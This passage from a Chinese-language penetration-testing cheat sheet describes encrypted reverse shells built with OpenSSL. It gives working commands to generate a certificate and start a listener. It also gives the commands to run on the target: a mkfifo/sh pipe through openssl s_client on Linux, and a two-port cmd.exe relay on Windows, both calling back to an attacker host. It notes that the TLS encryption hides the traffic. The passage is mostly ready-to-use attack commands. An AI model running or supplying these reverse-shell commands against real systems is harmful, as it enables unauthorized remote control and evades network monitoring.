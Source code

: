 	生成证书
	>openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/189.png)
  #### Linux
	监听
	>openssl s_server -quiet -key key.pem -cert cert.pem -port 1337
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/190.png)

	靶机执行
	>mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 192.168.0.108:1337 > /tmp/s; rm /tmp/s
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/191.png)

	此方式使用TLS1.2 协议对通信进行加密
  #### Windows
	攻击机需监听2个端口，一个端口发送命令，一个端口接收回显
	发送
	>openssl s_server -quiet -key key.pem -cert cert.pem -port 1337
	接收
	>openssl s_server -quiet -key key.pem -cert cert.pem -port 1338
	靶机执行
	>openssl s_client -quiet -connect 192.168.0.108:1337|cmd.exe|openssl s_client -quiet -connect 192.168.0.108:1338
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/192.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/193.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/194.png)